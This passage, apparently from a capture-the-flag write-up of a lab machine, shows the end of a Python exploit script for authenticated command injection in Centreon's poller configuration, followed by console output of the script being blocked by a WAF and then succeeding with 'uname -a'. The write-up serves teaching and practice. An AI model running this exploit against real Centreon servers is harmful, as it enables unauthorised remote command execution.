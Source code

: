 ```
    send_payload = request.post(poller_configuration_page, payload_info)
    print(f"[*] Payload inject status code: {send_payload.status_code}")
    if send_payload.status_code == 403:
        print("[-] WAF blocked command. Try something else")
        sys.exit()
    print("[+] Injecting Done, triggering the payload")
    generate_xml_page = url + "/include/configuration/configGenerate/xml/generateFiles.php"
    xml_page_data = {
        "poller": "1",
        "debug": "true",
        "generate": "true",
    }
    try:
        resp = request.post(generate_xml_page, xml_page_data, timeout=5)
        res = re.findall("id='debug_1'>(.*)<br><br></div><br/>]]", resp.text)[0]
        print(res.replace('<br>','\n'))
    except requests.Timeout:
        pass

else:
    print("[-] Wrong credentials")
    exit()

```

When it runs, it looks like, with both a failure (`hostname` is blacklisted) and a success:

```

root@kali# ./centreon-0xdf.py http://10.10.10.157/centreon/ admin password1 "hostname"
[+] Retrieving CSRF token to submit the login form
[+] Login token is : 829c505845f89f2057d44136440c8665
[+] Logged In Sucssfully
[+] Retrieving Poller token
[+] Poller token is : ca4c0c82566cef21642020c602a2feac
[*] Payload inject status code: 403
[-] WAF blocked command. Try something else

root@kali# ./centreon-0xdf.py http://10.10.10.157/centreon/ admin password1 "uname -a"
[+] Retrieving CSRF token to submit the login form
[+] Login token is : f1751b09c89e8cded9ed6d469bec20d6
[+] Logged In Sucssfully
[+] Retrieving Poller token
[+] Poller token is : e056d43e94946b0dfeec827b36ff26fd
[*] Payload inject status code: 200
[+] Injecting Done, triggering the payload
Linux Wall 4.15.0-54-generic #58-Ubuntu SMP Mon Jun 24 10:55:24 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

```

### Trolls
